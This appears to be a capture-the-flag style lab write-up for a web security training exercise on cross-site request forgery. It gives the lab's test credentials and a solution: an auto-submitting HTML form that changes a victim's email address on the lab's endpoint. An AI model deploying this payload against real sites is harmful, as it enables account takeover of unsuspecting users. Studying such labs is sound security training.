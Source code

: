 This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter 

# Solution

Upload and deliver exploit to victim
```html
<form id="autosubmit" action="https://0a9f006204e8f46785f2214f001100fc.web-security-academy.net/my-account/change-email" enctype="text/plain" method="POST">
 <input name="email" type="hidden" value="some-other-email@attacker.com" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```